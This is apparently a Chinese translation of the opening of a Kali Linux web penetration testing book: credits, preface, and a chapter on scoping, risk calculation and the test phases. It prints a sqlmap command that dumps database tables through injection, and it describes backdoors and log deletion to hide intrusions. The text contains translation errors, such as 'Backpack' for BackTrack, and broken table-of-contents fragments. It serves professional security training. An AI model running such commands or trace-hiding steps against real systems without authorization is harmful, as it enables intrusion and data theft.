# Kali Linux Web 渗透测试


## 致谢

**作者**
- Joseph Muniz
- Aamir Lakhani

**项目协调员**
- Anugya Khurana

**审核员**
- Adrian Hayter
- Danang Heriyadi
- Tajinder Singh Kalsi
- Brian Sak
- Kunal Sehgal
- Nitin.K. Sookun (Ish)

**校对员**
- Christopher Smith
- Clyde Jenkins

**索引员**
- Monica Ajmera Mehta

**图形设计**
- Ronak Dhruv

**策划编辑**
- Vinay Argekar

**制作协调员**
- Aditi Gajjar

**首席技术编辑**
- Amey Varangaonkar

**封面设计**
- Aditi Gajjar

**技术编辑**
- Pooja Arondekar
- Sampreshita Maheshwari
- Menza Mathew

## 关于作者

**Joseph Muniz** 是一位技术解决方案架构师和安全研究人员。他的职业生涯始于软件开发，后来作为合同技术资源管理网络。Joseph 转入咨询行业，并在与各种客户接触的过程中发现了对安全的热爱。他参与了从财富500强企业公司到大型联邦网络的多个项目的设计和实施。

Joseph 运行 TheSecurityBlogger.com 网站，这是一个关于安全和产品实施的热门资源网站。你也可以在现场活动中看到他的演讲或参与其他出版物。近期活动包括：2013年 ASIS 国际会议“社交媒体欺骗”主题演讲者、“通过数据中心安全消除盲点”网络研讨会演讲者、华盛顿特区政府解决方案论坛上“如何让你的自有设备 (BYOD) 正常工作”演讲者，以及在2013年7月份的《渗透测试杂志 - Backtrack 合编》上发表了关于破解密码的文章。

在工作之余，你可以发现他在唱片机上划动经典胶片，或者在当地俱乐部的足球场上活跃。

> 本本书的完成离不开我迷妻子 Ning 的支持以及女儿 Raylin 的创意灵感。我还必须把我对学习的热爱归于我的哥哥 Alex，是他和我亲爱的父母 Irene 和 Ray 一起抚养了我。我要感谢多年来支持我所有的朋友、家人和同事。

**Aamir Lakhani** 是一位领先的网络安全和网络反侦报架构师。他负责为大型商业机构和联邦企业组织提供 IT 安全解决方案。

Lakhani 领导了为财富500强公司、美国国防部、医疗保健提供者、教育机构和金融媒体组织实施安全态势的项目。Lakhani 为国防和情报机构设计了进攻性防御措施，并协助组织防御地下网络集团发起的积极反击攻击。Lakhani 被认为是支持网络防御、移动应用威胁、恶意软件和高级持续性威胁 (APT) 研究以及暗网安全相关详细架构参与和项目的行业领袖。Lakhani 是多本书的作者和贡献者，并作为网络安全专家出现在国家公共广播电台 (NPR)。

Lakhani 使用笔名 Dr. Chaos 写作，还运营着 DrChaos.com 博客。在他最近的46人……名单中，《福布斯》将 Aamir 描述为“博客博客、信息安全专家、超级英雄”。

> 我想将这本书献给我的父母 Mahmood 和 Nasreen，以及妹妹 Noureen 和 Zahra。

## 关于审核员

**Adrian Hayter** 是一位拥有超过10年开发和破解 Web 应用经验的渗透测试员。他拥有伦敦大学皇家霍洛学院（Royal Holloway）的信息安全硕士学位和计算机科学学士学位。

**Danang Heriyadi** 是一位印度尼西亚计算机安全研究人员，专攻反向工程和软件利用，拥有五多年的经验。他目前在 Hatsecure 担任“高级利用和 ShellCode”讲师。作为一名研究人员，他喜欢在自己的博客中分享 IT 安全知识。

**Tajinder Singh Kalsi** 是 Vircent Technologies Pvt Ltd 的联合创始人兼首席技术推广官，在 IT 领域拥有六多年的工作经验。他在 WIPRO 作为技术助理开始职业生涯，后来成为 IT 顾问兼培训师。目前，他在全印各大学举办关于信息安全、Android 应用开发、网站开发和云计算等主题的座讨会，目前已涵盖100多所大学和近8500名学生。除了培训外，他还维护着博客。

**Brian Sak**（CCIE #14441）目前是思科系统（Cisco Systems）的技术解决方案师，负责解决方案开发并帮助思科合作伙伴构建和改进其咨询服务。在加入思科之前，Brian曾为大型金融机构、美国政府机构和财富500强企业提供安全咨询和评估服务。他拥有近20年的行业经验，大部分都在信息安全领域。除了许多技术安全和行业认证外，Brian 还拥有信息安全与保障硕士学位，是互联网安全中心 (CIS) 以及其他专注于安全的书籍和出版物的贡献者。


Kunal Sehgal (KunSeh.com) 在完成格鲁治学院（加拿大）的网络空间课程后进入了 IT 安全行业，并从此以后一直与金融机构保持合作。这不仅让他在安全至关重要的环境中积累了经验，还为他在该领域提供了宝贵的专业知识。

目前，他担任一家最大的欧洲银行之一的亚太地区（APAC）IT 安全运营负责人。总体而言，他拥有10年的丰富经验，涵盖了从漏洞评估、安全治理、风险评估到安全监控的多个领域。他拥有许多认证，包括 Backtrack 备誉的 OSCP，以及其他如 TCNA、CISM、CCSK、Security+、Cisco Router Security、ISO 27001 LA 和 ITIL。

Nitin Sookun (MBCS) 是一位充满热情的电脑极客，居住在印度洋中心美丽的毛里求斯岛。他以创业者的身份开启了自己的职业生涯，并创立了 Indra Co. Ltd。为了追求更多挑战，他将业务交给了家族，并加入 Linkbynet Indian Ocean 担任 Unix/Linux 系统工程师。他目前是 Orange Business Services 的工程师。

Nitin 从 2009 年起就是 openSUSE 的倡导者，并在空余时间推广 Linux 和开源软件（FOSS）。他是多个用户组和开源项目的活跃成员，其中包括 openSUSE 项目、MATE 桌面项目、自由软件基金、毛里求斯 Linux 用户组以及毛里求斯软件工艺社区。

他喜欢使用 Bash、Perl 和 Python 编写脚本，通常在他的博客上发布作品。他的作品“Project Evil Genius”是一个用于在 openSUSE 上迁移/安装渗透测试工具的脚本。他的教程经常被翻译成各种语言并在开源社区中分享。Nitin 是一个自由思考者，相信知识共享。他喜欢与来自不同领域的专业人士社交。

## 支持文件、电子书、优惠活动及更多

您可能希望访问 www.PacktPub.com 获取与您的书籍相关的支持文件和下载。

您知道吗？Packt 为出版的每本书都提供电子书版本，提供 PDF 和 ePub 文件。您可以在 www.PacktPub.com 升级到电子书版本，作为纸质书客户，您有权获得电子书折扣。请通过 service@packtpub.com 与我们联系获取更多详情。

在 www.PacktPub.com，您还可以阅读技术文章集，注册一系列免费时通讯，并接收 Packt 图书和电子书的专属折扣和优惠。

http://PacktLib.PacktPub.com

您需要对问题的即时解决方案吗？PacktLib 是 Packt 的在线数字书库。在这里，您可以访问、阅读和搜索 Packt 的整个书籍库。

## 为什么要订阅？

- 可全文搜索 Packt 出版的每本书书
- 复制、粘贴、打印和书签内容
- 按需提供并可通过网络浏览器访问

## Packt 账户持有者的免费访问

如果您在 www.PacktPub.com 拥有 Packt 账户，今天可以使用它访问 PacktLib 并查看九本完全免费的书。只需使用您的登录凭据即可访问。


- DirBuster 110


- 中间人攻击 123
- 总结 127


## 在 Kali 中的其他工具 170


| Section | Page |
| :--- | :--- |
## 第 6 章：Web 攻击 211

| OWASP – ZAP | 225 |
| Scapy | 238 |
| Slowloris | 240 |
| Low Orbit Cannon | 242 |
## 第 7 章：防御措施 251

- 中间人防御 259
- 拒绝服务防御 262
- Cookie 防御 263
- 点击劫持取证 264
- Kali 启动盘 266
- 使用 Kali 进行文件系统分析 267
- dc33d 269
- Kali 中的其他工具 271
- chkrootkit 271
- Autopsy 271
- Binwalk 274
- pdf-parser 275
- Foremost 275
- Scalpel 276
- bulk_extractor 276


| :--- | :--- |

## 前言

Kali 是一个基于 Debian Linux 的渗透测试军库，供安全专业人员（及其他人员）执行安全评估使用。Kali 提供了一系列定制的工具集，用于识别和利用系统中的漏洞。本书利用了 2013 年 3 月 13 日发布的 Kali Linux 中可用的工具以及其他开源应用程序编写而成。

《基于 Kali Linux 的 Web 渗透测试》旨在为希望将 Kali 用于 Web 应用渗透测试任务的专业渗透测试人员提供指南。我们的目标是针对特定任务识别最佳 Kali 工具，提供使用这些应用程序的详细信息，并根据专家实地经验提供用于报告的可能获取的信息示例。Kali 拥有各种程序和实用程序；但本书将重点介绍在出版时针对特定任务最强大的工具。

本书的章节分为真实世界 Web 应用渗透测试中使用的任务。第 1 章“渗透测试与设置”概述了渗透测试的基本概念、专业服务策略、Kali Linux 环境背景，以及为书中介绍的主题配置 Kali 环境。第 2 至 6 章涵盖了各种 Web 应用渗透测试，包括配置和报告示例，这些示例旨在突出所涵盖的主题并实现您的预期目标。

第 7 章“防御对措施”作为前几章介绍的易受攻击系统的修复源。。第 8 章“渗透测试执行报告”提供了报告的最佳实践和示例，这些示例可以作为构建执行级报告的模板。以这种方式设计的目的是为读者提供一份指南，利用 Kali 中提供的可用工具进行 Web 应用渗透测试，提供修复漏洞的步骤，并说明如何以专业的方式展示采集的数据。

## 本书涵盖内容

第 1 章“渗透测试与设置”涵盖了构建专业渗透测试实践的基础知识。主题包括区分渗透测试与其他服务的区别、方法论概述以及目标 Web 应用。本章还提供了设置 Kali Linux 环境的步骤，以完成书中涵盖的任务。

第 2 章“侦察”提供了收集有关目标信息的各种方法。主题包括介绍互联网上流行的免费工具以及 Kali Linux 中可用的信息收集实用程序。

第 3 章“服务器端攻击”侧重于识别和利用 Web 服务器及应用程序中的漏洞。涵盖的工具可在 Kali 或或其他开源工具中找到。

第 4 章“客户端攻击”针对主机系统。主题包括社会工程学、利用主机系统和攻击密码，因为它们是保护主机系统最常见的手段。

第 5 章“攻击认证”研究用户和设备如何验证 Web 应用程序，破解数据在主机系统上的存储方式，以及中间人攻击技术。本章还简要涉及了 SQL 和跨站脚本（XSS）攻击。

第 6 章“Web 攻击”探索了如何利用浏览器利用、代理攻击和密码收集等漏洞利用 Web 服务器并破坏 Web 应用。本章还涵盖了使用拒绝服务技术中断服务的方法。

第 7 章“防御对措施”为强化您的 Web 应用和服务器提供了最佳实践。主题包括安全基线、补丁管理、密码策略以及防御前几章涵盖的攻击方法。本章还包含一个取证章节，因为适当调查受攻击的资产以避免额外的负面影响至关重要。

第 8 章“渗透测试执行报告”涵盖了开发专业渗透测试服务报告的良好实践。主题包括增加交付物价值的方法概述、文档格式以及可用于构建专业报告的模板。

## 读本书所需的准备

读者应该对 Web 应用、网络概念和渗透测试方法论有基本的了解。本书将包含如何使用 Kali Linux 工具和其他开源应用程序执行攻击的详细示例。不需要具备使用以前版本的 Backtrack 或类似程序的经验，但这样做会有益。

构建实验室环境和设置 Kali Linux 军库的硬件要求已在*第 1 章，渗透测试与设置*中介绍。

## 本书适合谁读

本书的目标受众是专业渗透测试人员，或其他希望通过 Kali Linux 最大化 Web 服务器或应用程序渗透测试效率的人员。如果您正在寻找如何对 Web 应用进行渗透测试并以专业的方式向客户展示结果，那么这本书适合您。

## 惯例

在书中，您会发现多种风格的文本，以区分不同类型的信息。以下是这些风格的示例及其含义解释。

文本中的代码词显示如下：“例如，你可以将配置命名为 My First Scan 或你喜欢的任何名称。”

代码块设置如下：

```
<script>document.write("</script>
```

任何命令行输入或输出写法如下：

```
sqlmap -u http://www.drchaous.com/article.php?id=5 -T tablesnamehere -U test --dump
-U test --dump
```

新术语和重要词汇用**粗体**显示。你在屏幕、菜单或对话框中看到的词，例如，在文中所示：“当我们点击执行按钮时，我们收到了 SQL 注入。”

> 警告或重要注释将如框所示。

> 技巧和诀门将如下所示。

## 读者反馈

我们随时欢迎读者的反馈。告诉我们对这本书的看法——你喜欢或可能不喜欢的地方。读者反馈对于我们开发您真正需要的书籍至关重要。

要发送一般反馈，请发送电子邮件到 feedback@packpub.com，并在邮件主题中提及书名。

如果您在某个领域拥有专业知识，并对编写或贡献书籍感兴趣，请参阅 www.packpub.com/authors 作者指南。

## 客户支持

现在您是 Packt 书籍的自豪所有者，我们提供了许多帮助您充分利用购买的内容。

## 错误说明

尽管我们尽力确保内容的准确性，但错误仍然会发生。如果您在我们的书中发现错误——可能是文本或代码中的错误——我们将不胜感激您向我们报告。这样做可以避免其他读者受到困扰，并帮助我们改进书籍的后续版本。如果您发现任何错误，请访问 http://www.packpub.com/submit-errata 进行报告，选择您的书籍，点击错误提交表链接并输入错误详情。您的提交将被接受，错误将上传到我们的网站，或添加到该标题“错误”部分的任何现有错误列表中。任何现有错误可以通过 http://www.packpub.com/support 查看。


# 盗版

互联网上版权材料的盗版是一个跨所有媒体的持续存在的问题。在 Packt，我们非常重视对我们版权和许可的保护。如果您在互联网上发现我们作品任何形式的非法复制，请立即向我们提供位置地址或网站名称，以便我们采取补救措施。

请通过 copyright@packtpub.com 与我们联系，并附上可疑盗版材料的链接。

感谢您帮助保护我们的作者，并使我们能够继续提供有价值的内容。

# 常见问题

如果您对本书的任何方面有疑问，可以通过 questions@packtpub.com 与我们联系，我们将尽力为您解决。

## 1 渗透测试与环境搭建

许多机构提供安全服务，并使用如“安全审计”、“网络或风险评估”以及“渗透测试”（Penetration Test）等含义重叠的术语。根据定义，审计是对系统（或应用程序）进行的可衡量的技术评估。安全评估是对风险的评估，即用于识别系统、应用程序和流程中漏洞的服务。

**渗透测试**超越了评估范畴，它通过评估已识别的漏洞来验证该漏洞是真实的还是报假。例如，审计或评估可能会使用扫描工具，这些工具会在多个系统上提供几百个可能的漏洞。渗透测试将尝试像恶意黑客一样攻击这些漏洞，以验证哪些漏洞是真实的，从而将真实的系统漏洞列表缩小到少数几个安全弱点。最有效的渗透测试是针对特定系统且具有特定目标的测试。在针对性攻击中，单个系统的质量比比泛的攻击能揭示更多关于系统安全性和处理事件的响应时间。成功渗透测试的真正考验在于：枚举。通过仔细选择有价值的目标，渗透测试人员可以确定价值资产的整个安全基础设施和相关风险。

> 渗透测试并让网络更安全！

# 渗透测试与环境搭建

这是一个常见的误解，应该向所有潜在客户解释清楚。渗透测试评估的是现有安全措施的有效性。如果客户没有强大的安全防护，他们从渗透测试服务中获得的价值将很小。作为顾问，建议将渗透测试服务作为验证现有系统安全性的手段，前提是客户认为他们已经尽一切努力保护这些系统，并准备好评估保护这些系统时是否存在漏洞。

在销售渗透测试服务时，确定适当的工作范围（Scope of work）至关重要。工作范围定义了哪些系统和应用程序是目标，以及可能使用哪些工具集来利用发现的漏洞。最佳实践是在设计阶段与客户合作，制定一个可以接受的工作范围，且该范围不会影响结果价值。

使用 Kali Linux 进行 Web 渗透测试——BackTrack 的下一代——是一本实操指南，将提供发现漏洞和利用 Web 应用程序的逐步方法。本书将涵盖目标研究、识别和利用 Web 应用程序以及使用应用程序服务的客户端漏洞、防御常见攻击的 Web 应用程序，以及为专业服务实践构建渗透测试交付物。我们认为这本书适用于任何对学习如何成为渗透测试人员感兴趣的人、Kali Linux 新手并想了解 Kali 与 BackTrack 特性及差异的用户，以及可能需要对新工具技术进行复习或参考的资深渗透测试人员。

本章将分解各种安全服务背后的基本概念，以及建立专业渗透测试实践的指南。概念包括区分渗透与其他与其他、方法论概述以及针对 Web 应用程序。本章还简要介绍了搭建 Kali 测试环境或真实环境。

# Web 应用程序渗透测试概念

Web 应用程序是任何使用网络浏览器作为客户端的应用程序。它可以是一个简单的留言板，也可以是非常复杂的电子表格。Web 应用程序的流行基于服务的易于访问性以及多方使用系统的中心化管理。访问 Web 应用程序的要求可以遵循行业浏览器客户端标准，从而简化服务提供者和接收应用程序的宿主的预期。

Web 应用程序是任何组织内部使用最广泛的应用类型。它们是大多数基于互联网的应用的标准。如果你观察手机和平板，你会发现这些设备上的大多数应用程序也是 Web 应用程序。这为安全专业人员以及利用这些系统的攻击者创造了全新的、巨大的目标风险面。

Web 应用程序渗透测试的范围可能有所不同，因为 Web 应用程序存在大量的系统类型和业务用例。在 Web 应用程序渗透测试期间，核心 Web 应用程序层（包括托管服务器、访问设备和数据存储）以及层级之间的通信都应进行测试。

开发 Web 应用程序渗透测试范围的示例是测试一个托管移动设备应用程序的 Linux 服务器。工作范围至少应包括评估 Linux（操作系统、网络配置等）、从服务器托管的应用程序、系统和用户如何进行身份验证、访问服务器的客户端设备以及所有三层之间的通信。工作范围中可以包含的额外评估区域还员工获取的权限、这些权限在访问应用程序之外如何被使用、周围网络、系统的维护以及系统用户。为什么这些其他范围领域重要的示例包括：允许受其他方式感染的移动设备连接导致 Linux 服务器被攻破，或者通过社交媒体获取授权的移动设备以捕获机密。

我们在第 8 章《渗透测试执行报告》中包含了 Web 应用程序渗透范围的模板。本章中的某些交付示例提供了复选框调查，可以帮助客户了解 Web 应用程序渗透测试工作范围的可能目标。每个工作范围都应该根据客户的业务目标、预期的执行时间、分配的资金和预期结果进行定制。如前所述，模板是增强开发工作范围设计会议的工具。

# 渗透测试方法论

执行渗透测试有逻辑的步骤。第一步是确定项目状态。定义初始状态的最常用术语是黑盒测试、白盒测试，以及黑白盒结合的灰盒测试。

黑盒假设渗透测试人员对目标网络、公司流程或提供的服务一无所知。启动黑盒项目需要大量的侦察，通常周期较长，因为现实世界的攻击者在发起之前会花费长时间研究目标。

作为安全专业人员，我们发现黑盒测试在确定渗透测试范围时存在某些问题。根据系统以及你对环境的熟悉程度，很难估计侦察阶段将持续多久。这通常会导致计费问题。大多数情况下，客户不愿意给你开空白支票让你在侦察阶段花费无限的时间和资源；然而，如果你没有花费所需的时间，渗透测试在开始之前就结束了。这符合实际，因为有动机的攻击者不会像专业渗透测试人员那样受到范围和计费的限制。这就是为什么我们建议使用灰盒测试。

白盒是指渗透测试人员对系统有深入了解。渗透测试的目标明确，测试报告的结果通常是预期的。测试提供了目标的细节，如网络信息、系统类型、公司流程和服务。白盒测试通常关注特定的业务目标（例如满足合规性需求），而不是通用评估，根据目标空间的限制，其周期可能更短。白盒任务可以减少信息收集工作（如侦察服务），从而降低渗透测试服务的成本。

> 内部安全小组通常执行白盒测试。


# 第一章

真实的攻击者在发起攻击之前，通常会对目标掌握一些信息。大多数攻击者（脚本小子或下载并运行工具的个人除外）不会随机选择目标。他们有明确的动机，并且在尝试攻击之前已经以某种方式与目标进行过交互。对于许多进行渗透测试的安全专业人员而言，**灰盒**是一个极具吸引力的选择，因为它模拟了攻击者使用的真实世界方法，并关注于漏洞而非侦察。

工作范围（Scope of work）定义了如何启动和执行渗透服务。启动渗透测试服务项目时，应该包含一个信息收集阶段，用于记录目标环境并定义任务的边界，以避免不必要的侦察服务或攻击超出范围的系统。定义良好的工作范围可以防止服务提供者出现“范围蔓延”（定义为项目范围的不受控变化或持续增长），使其在预期的时间范围内运行，并在服务结束后提供更准确的交付物。

真实的攻击者没有时间、资金、伦理或工具等限制，这意味着限制渗透测试范围可能无法代表真实世界的场景。与有限的范围相比，如果在攻击系统之前就考虑渗透测试，那么无限的范围可能永远无法评估关键漏洞。例如，渗透测试人员可能会获取关键系统的用户凭据，并以访问这些系统作为结论，而不测试这些系统对网络攻击的脆弱程度。此外，将“谁知道渗透测试”作为范围的一部分也是重要的。真实的攻击者可能在任何时候发起攻击，并且可能是在人们最没有防备的时候。

开发渗透测试工作范围的一些基础要素如下：

- **目标系统定义：** 这规定了应该测试哪些系统。这包括系统在网络上的位置、系统类型以及这些系统的业务用途。
- **执行工作的时间范围：** 测试何时开始，以及实现特定目标的时间范围。最佳实践是**不要**将时间范围限制在工作时间内。
- **如何评估目标：** 哪些类型的测试方法（如扫描或利用）是允许和禁止的？由于渗透尝试导致系统无法运行的风险是什么？例如：冒充员工进行社交网络攻击、对关键系统进行拒绝服务攻击或在有漏洞的服务器上执行脚本。某些攻击方法可能比其他方法具有更高的系统损坏的风险。

## 渗透测试与设置

- **交付物：** 期望什么种类型的最终报告？客户在结束渗透测试协议时指定要完成哪些目标？确保目标不是开放式的，以避免预期服务的范围蔓延。是否有任何数据被归类或指定给特定的人员？最终报告应如何交付？提供示例报告或定期更新是重要的，以确保最终报告中不会出现意外。
- **修复预期：** 漏洞是否会被记录下来，并附带可能的修复措施项？如果在渗透测试演期间系统变得不可用，应该通知谁？如果发现了敏感数据该怎么办？大多数渗透测试服务**不包括**对发现的问题进行修复。

以下是用于定义服务范围的某些服务定义：

- **安全审计：** 根据一组标准或基准评估系统或应用程序的风险水平。标准是强制性规则，而基准（baselines）是最小可接受的安全水平。标准和基准实现了安全实现的一致性，并可以针对特定的行业、技术和流程。

大多数针对审计的安全服务请求侧重于通过官方审计（例如为公司或政府审计做准备），或证明满足某些强制性法规的基准要求（例如遵循保护医疗保健的 HIPAA 和 HITECH 指令）。如果在您提供服务后审计未成功，告知潜在客户您的审计是否包含任何程度的保险或保护是重要的。识别审计服务中包含的修复类型（即：您是识别问题、提供修复计划还是修复问题）也至关重要。合规性审计远比运行安全工具复杂得多。它高度依赖于标准的报告类型并遵循特定的方法论。

**漏洞评估：** 这是一个通过扫描网络设备、操作系统和应用程序软件来识别已知和未知漏洞的过程。漏洞是系统设计、使用和保护方面的缺陷、错误或弱点。当漏洞被利用时，可能会导致未经访问、权限提升、资产拒绝服务或其他结果。

漏洞评估通常在发现漏洞后停止，这意味着渗透测试人员不会针对漏洞执行攻击以验证其真实性。漏洞评估交付物提供了与所有发现漏洞相关的风险以及可能的修复步骤。有很多解决方案（如 Kali Linux）根据系统类型、开放端口和其他手段进行漏洞扫描。根据任务性质，漏洞评估可以是白盒、灰盒或黑盒。

漏洞扫描只有在计算风险时才有用。许多安全审计的缺点是漏洞扫描结果让审计变得臃肿而没有提供任何实际价值。许多漏洞扫描器存在误报，或者识别出实际上并不存在的漏洞。它们这样做是因为错误地识别了操作系统，或者正在寻找特定的补丁来修复漏洞，但没有查看汇总补丁（包含较小补丁的补丁）或软件修订。为漏洞分配风险提供了系统脆弱程度的真实定义和感知。在许多情况下，这意味着需要检查工具生成的漏洞报告。

客户将知道与漏洞相关的风险以及减少任何风险的预期成本。为了提供成本价值，了解如何计算风险是重要的。

### 计算风险

了解如何计算与发现的漏洞相关的风险是重要的，以便做出反应决策。大多数客户在确定风险影响时会参考 CISSP 的 CIA 三角。CIA 是特定系统或应用程序的机密性、完整性和可用性。在确定风险影响时，客户必须单独查看每个组件并整体考虑漏洞，以获得风险的真实视角并确定影响的可能性。


### 认证信息安全专业人员 (CISP) 课程列出了以下风险计算公式。

单次损失期望（SLE）是资产价值（AV）发生单次损失的成本。暴露因子（EF）是资产损失对组织的影响，例如由于面向互联网的服务器关闭导致收入损失。客户在评估安全投资时，应该计算资产的 SLE，以帮助识别应分配给控制措施的资金水平。如果单次 SLE 会给公司造成 100 万美元的损失，那么在预算中考虑这一点是合理的。

单次损失期望公式：

SLE = AV * EF

下一个重要的公式是识别 SLE 发生的频率。如果一次价值 100 万美元的 SLE 每年发生一次（例如从天空落下的陨石），那么可能不值得在你的总部周围投资一个保护罩。相比之下，如果火灾每隔几年就可能导致一次价值 100 万美元的损失，那么投资防火系统将是明智的。资产丢失的次数被称为年度发生率（ARO）。

年化损失期望（ALE）是风险导致的年度预期损失的表达。例如，陨石坠落的年化期望非常低，而火灾发生的概率大得多，在未来保护建筑的投资中应将其计算。

年化损失期望公式：

ALE = SLE * ARO

最后一个需要回答的问题是与资产相关的风险，用于确定控制措施的投入。这可以决定客户应该以及投入多少资金来修复资产中发现的漏洞。

风险公式：

Risk = 资产价值 * 威胁 * 漏洞 * 影响

客户通常没有风险管理公式中变量的数值。这些公式充当了引导系统，帮助客户更好地理解他们应该如何投入安全资金。在我之前的示例中，对陨星雨和建筑火灾的估计美元值使用这些公式，有助于解释为什么防火系统比防止物体坠落的金属罩是更好的投资。

## 渗透测试与设置

渗透测试是以类似于恶意攻击者的方式攻击系统漏洞的方法。通常，当系统或网络的安全投入耗尽，且客户寻求验证是否所有安全领域都已覆盖时，就会请求渗透测试服务。根据约定的工作范围，渗透测试可以是黑盒、白盒或灰盒。

渗透测试与漏洞评估之间的主要区别在于，渗透测试将对发现的漏洞采取行动，并验证它们是否减少了与目标相关的确认风险水平。一旦资产所有者授权服务提供对对目标识别出的漏洞执行攻击，对目标的漏洞评估就可以转变为渗透测试。通常，渗透测试服务的关联成本更高，因为这些服务需要更昂贵的资源、工具和时间来成功完成任务。一个常见的误解是渗透测试服务增强了 IT 安全，因为该服务的成本高于其他服务：

- 渗透测试不会让 IT 网络更安全，因为该服务评估的是现有的安全！如果目标没有完全安全，客户不应考虑进行渗透测试。渗透测试可能会对系统产生负面影响：在开始对另一方拥有的资产进行渗透测试之前，获得适当机构的书面授权至关重要。没有获得适当授权可能会被当局视为非法黑客行为。授权应包括在渗透练习期间造成的任何损害由谁负责，以及在系统受损后应联系谁以避免未来的负面影响。最佳实践是在执行攻击之前，向客户通报与每种用于破坏目标的方法相关的所有潜在风险。这也是我们推荐进行小范围针对性渗透测试的原因之一。这样你的方法可以更容易变得更有条理。作为一项常见的最佳实践，我们会获得确认（这是最坏的情况考虑），即客户可以使用备份或其他灾难恢复方法恢复系统。

渗透测试的交付物预期在商定工作范围时应明确定义。黑客通过社会工程利用人而非系统获取目标信息的最常见方法。例如，参加组织内的职位面试，并在一周后在没有任何阻力的情况下带走敏感数据。如果客户对了解他们的 Web 应用程序对远程攻击有多脆弱感兴趣，那么这类交付物可能是不可接受的。定义一个明确的最终目标也很重要，以便所有方都理解渗透服务何时被认为结束。通常，一个约定的交付物可以起到此目的。

# 第一章

对于服务提供者而言，渗透测试项目的成功取决于交付渗透测试项目所需的时间和服务的盈利能力。更高效、更准确的过程意味着使用更少的服务获得更好的结果。交付物的质量越高，服务就越能满足客户的预期，从而获得更好的声誉和更安全的未来。出于这些原因，开发一套执行渗透测试服务的方法论以及如何报告发现内容的方法至关重要。

### Kali 渗透测试概念

Kali Linux 的设计旨在遵循渗透测试服务执行的流程。无论起点是白盒、黑盒还是灰盒测试，在使用 Kali或其他工具对目标进行渗透测试时，都应该遵循一套步骤。

### 第一步 – 侦察

在发起攻击之前，你应该尽可能多了解目标环境和系统特征。你对目标识别的信息越多，你发现通往成功最早的最快路径的机会就越大。黑盒测试比白盒测试需要更多的侦察，因为没有提供有关目标的数据。侦察服务包括研究目标的互联网足迹，监控资源、人员和流程，扫描 IP 地址和系统等网络信息。

无论是验证已知信息还是寻求目标的新情报，侦察都是渗透测试服务执行执行的第一步。侦察从根据工作范围定义目标环境开始。一旦确定了目标，就会对目标进行研究以收集情报，例如使用的端口、托管位置、提供的服务类型等。这些数据将就有关最简单的方法制定行动计划。侦察任务的交付物应包括所有目标资产列表、关联的应用程序、使用的服务以及可能的所有者。

Kali Linux 提供了一个名为“信息收集”的类别，作为侦察资源。工具包括研究网络、数据中心、无线和主机系统的方法。

## 渗透测试与设置

以下是侦察目标列表：

- 识别目标
- 定义应用程序和用途
- 识别系统类型
- 识别可用端口
- 识别运行的服务
- 被动社会工程学信息
- 记录发现

### 第二步 – 目标评估

一旦通过侦察工作识别并研究了目标，下一步是评估目标的漏洞。此时，渗透测试人员应该足够了解目标，以选择如何分析可能的漏洞或弱点。例如测试 Web 应用程序运行方式、识别的服务、通信端口或其他方面的弱点。漏洞评估和安全审计通常在目标评估过程的此阶段结束。

通过侦察获取详细信息可以提高针对漏洞的准确性，缩短执行评估服务的时间，并有助于现有安全。例如，对 Web 应用程序服务器运行通用漏洞扫描可能会提醒资产所有者，执行耗时长且仅提供有关系统和应用程序的通用细节。根据侦察获得的数据对服务器进行特定漏洞扫描将让所有者难以检测，提供一个良好的可能的利用漏洞，并在几秒钟内执行。

评估目标漏洞可以手动，也可以通过工具自动。Kali Linux 提供了一系列分类为“漏洞分析”的工具。工具涵盖了从网络设备到数据库。

以下是目标评估目标：

- 评估目标弱点
- 识别并优先处理漏洞系统
- 将漏洞系统映射到资产所有者
- 记录发现


## 第 3 步 – 利用 (Exploitation)

此步骤通过利用发现的漏洞来验证漏洞是否真实，以及可以获取哪些可能的信息或权限。利用是将渗透测试与漏洞评估和审计等被动服务区分开来。如果没有目标资产所有者的授权，利用及后续所有步骤都具有法律风险。

这一步的成功在很大程度上取决于之前的努力。大多数利用程序是针对特定漏洞开发的，如果执行不当，可能会导致意外的后果。最佳实践是识别少量漏洞，并根据优先处理最脆弱的漏洞来制定攻击策略。

根据最终目标，利用目标可以是手动或自动的。例如，运行 SQL 注入以获取 Web 应用程序的访问权限，或通过社会工程学引导桌面人员提供管理员登录凭据。Kali Linux 提供了一个名为“利用工具”（Exploitation Tools）的专用工具目录，涵盖了从利用特定服务到社会工程包的工具。

以下是利用目标的列表：
- 利用漏洞
- 获取立足 (Foothold)
- 提取未经授权的数据
- 进取性社会工程攻击
- 攻击其他系统
- 记录发现的结果

## 第 4 步 – 权限提升 (Privilege Escalation)

拥有目标的访问权限并不保证能完成渗透任务的目标。在许多情况下，利用漏洞可能只能获得目标数据和资源的有限访问权限。攻击者必须提升权限以获得获取敏感数据、关键基础设施等所需的访问。

权限提升可以包括识别和破解密码、用户账户以及未经授权的空间。例如：获得有限的用户访问权限、识别影子文件（shadow file）、通过密码破解获取管理员凭据，以及以管理员权限访问内部系统。

Kali Linux 包含了许多工具，可以通过攻击和工具帮助实现权限提升。

以下是权限提升目标的列表：
- 获取对系统和网络的提升级访问权限
- 发现其他用户账户
- 使用提升后的权限访问其他系统
- 记录发现的结果

## 第 5 步 – 维持立足 (Maintaining a foothold)

最后一步是通过在目标中建立进入点来维持访问权限，并在可能的情况下覆盖渗透痕迹。渗透尝试可能会触发防御，最终限制渗透测试员访问网络的方式。最佳实践是建立访问目标的其他方式以防关闭。备用访问方法包括后门、加密隧道和新的网络通道。

在目标中维持立足的重要方面是消除渗透痕迹。这将使得安全防御难以检测。消除痕迹包括删除用户日志、掩盖现有通道以及移除渗透尝试产生的轨迹。

Kali Linux 包含一个名为“维持访问”（Maintaining Access）的目录，专注于在目标内部维持立足。这些工具用于向目标建立各种形式后门。

以下是维持立足的目标列表：
- 建立访问目标的方法
- 删除授权访问的证据
- 修复影响利用的系统
- 需要时注入数据
- 通过加密和其他隐藏通信
- 记录发现的结果

## 介绍 Kali Linux

Backpack 的创建者发布了一个全新的高级渗透测试发行版，名为 Kali Linux。Backpack 5 是该发行版的最后一个主要版本。创建者决定应对网络安全和现代测试的挑战。Kali Linux 于 2013 年 3 月诞生并发布。Kali Linux 基于 Debian 和符合 FHS 标准的文件系统。

相比于 Backpack，Kali 有许多优势。它带有更多更新的工具。这些工具通过 Debian 仓库进行简化，并同步四次。用户拥有最新的包更新和安全修复。新的合规系统意味着可以从系统的任何地方运行工具。Kali 还将自定义、无人值安装和灵活的桌面环境作为 Kali 的强大特性。

可以在 http://www.kali.org/ 下载 Kali Linux

## Kali 系统设置

